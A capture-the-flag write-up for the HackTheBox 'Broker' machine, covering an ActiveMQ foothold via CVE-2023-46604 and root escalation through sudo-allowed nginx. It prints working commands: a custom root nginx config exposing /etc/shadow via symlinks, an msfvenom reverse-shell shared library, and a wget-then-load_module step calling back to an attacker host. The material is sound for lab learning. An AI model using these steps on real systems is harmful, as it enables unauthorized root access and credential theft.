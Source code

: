 HTB: Broker

Hi, the reason why I'm making this writeup is because I think I did the privesc of this box in a unique and easier way than others. Instead of writing an SSH key to `/root/.ssh/id_rsa`, or dealing with logs and poisoning, you can just use nginx's `-g` flag to run a shared library.

This writeup won't walk you straight to the solution. I will be mentioning some of the rabbit holes I went down. If you don't want that, then just read the **bold** lines.

### Foothold

- **We're welcomed with an http basic authentication request. Trying `admin:admin` suprisingly works. (I really wasn't expecting that.)**
  
- **It's running ActiveMQ**
  
- **It leaks the version on `http://10.10.11.243/admin/`**
  
- Looking at my outdated `searchsploit`, I couldn't find anything. And considering this is HackTheBox, this shouldn't be the vector right?
  
- I try enumerating port 1883
  

```bash
mosquitto_sub -h 10.10.11.243 -t '#' -v
```

- There is no traffic. So I try making some by browsing the webpage and sending messages from `http://10.10.11.243/admin/send.jsp`. I can only read what I sent. It doesn't help.
  
- So, I kept enumerating other ports, looking at the Nmap output. But they got me nowhere.
  
- **I finally decided to actually look for CVE's. I search on Google for `activemq cve`**
  
- **I was greated with `CVE-2023-46604`, searching for `CVE-2023-46604 github` we find this Python script `https://github.com/evkl1d/CVE-2023-46604`. Written a week before the box's release.**
  
- **We run the exploit and get into the box.**
  

### Privesc

- **My immediate thought was to run `sudo -l` (probably because it's the easiest one. And if there is something you can run using `sudo`, it has the highest chance of involving in the privesc)**
  
- **We see `/usr/sbin/nginx`. Hmm, GTFOBins? Nothing. Nginx runs commands on startup? Nope. File read-write? Didn't think so. What can we do now?**
  
- I run `nginx -h`, find nothing at the first glance, I search the web for something I could use, but no. I look at suid binaries, run `linpeas` but there is nothing I can use.

![nginx help](https://github.com/Dogru-Isim/CTFSolutions/blob/main/HackTheBox/Linux/Easy/Broker/images/nginx_help.png?raw=true)
  
- It's now time to look deeper into the `nginx` vector.
  
- **I see that there is a `-c` option. I can use this to use a custom configuration file.**
  
- **I can also use `-s stop` to stop and restart nginx so we don't disturb others with our endless web-servers**
  
- **Lets create a new configuration file. We'll also need the "default" file from `/etc/nginx/sites-available/default`**
  
- **Now, lets modify them to run our web server as `root` on 4443. And our path will be /home/activemq/.work. I also want to remove things that we surely won't need. (comments, includes from /etc/nginx/*)**
  

```new-config.config
user root;
worker_processes auto;
pid /run/nginx.pid;
#include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
}

http {

        sendfile on;
        tcp_nopush on;
        types_hash_max_size 2048;

        include /etc/nginx/mime.types;
        default_type application/octet-stream;

        ssl_prefer_server_ciphers on;

        access_log /var/log/nginx/access.log;
        error_log /var/log/nginx/error.log;

        gzip on;

        #include /etc/nginx/conf.d/*.conf;
        #include /etc/nginx/sites-enabled/*;
        include /home/activemq/.work/new-default;
}
```

```new-default
server {
    listen 4443;
    server_name    nothing.broker.htb
    root /home/activemq/.work/
    location / {}
}
```

- **Now lets run it to see if it works,**
  

```bash
activemq@broker:~/.work$ sudo nginx -c new-config.config 

nginx: [emerg] open() "/usr/share/nginx/new-config.config" failed (2: No such file or directory)
```

- Hmm, it's looking for it in `/usr/share/nginx/` lets specify the current directory.
  

```bash
activemq@broker:~/.work$ sudo nginx -c ./new-config.config 
nginx: [emerg] open() "/usr/share/nginx/./new-config.config" failed (2: No such file or directory)
```

- **Meh, maybe we do some directory traversal,**
  

```bash
activemq@broker:~/.work$ sudo nginx -c ../../../../home/activemq/.work/new-config.config 
```

- **Haha, it worked!**
  
- **I know you can't run php natively on nginx. But I still try writing a webshell to our webroot. Appearently, when you do that you get to download the file. So I set-up a symlink to `/etc/shadow` and `/root/root.txt`. And browse to them.**
  

```bash
activemq@broker:~/.work$ ln -s /root/root.txt flag
activemq@broker:~/.work$ sudo nginx -c ../../../../home/activemq/.work/new-config.config 
```

- **We can get the flag this way. But this is not optimal is it?**
  
- **After reading some Nginx docs: [Command-line parameters](http://nginx.org/en/docs/switches.html), I realize that we can run `-g` with a limited amount of options such as `pid $path` and etc. They are called `global configuration directives`. global- What?**
  
- **I don't know a lot about the others but one of them is actually useful to us: `load_module`**
  
- **So, my goal now is to download an `msfvenom` generated shared library ".so", and run it using `-g load_module priv.so`. DAMN I love this shit.**
  

```bash
Local:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=$local_ip LPORT=8443 -f elf-so > priv.so
$ python3 -m http.server
```

```bash
Remote:
$ wget http://10.10.14.176:8000/priv.so
$ sudo nginx -c ../../../../home/activemq/.work/new-config.config -g 'load_module priv.so'
```

- I hope you didn't forget setting up `multi/handler`
  
- And there is our shell

![Root Shell](https://github.com/Dogru-Isim/CTFSolutions/blob/main/HackTheBox/Linux/Easy/Broker/images/root_shell.png?raw=true)
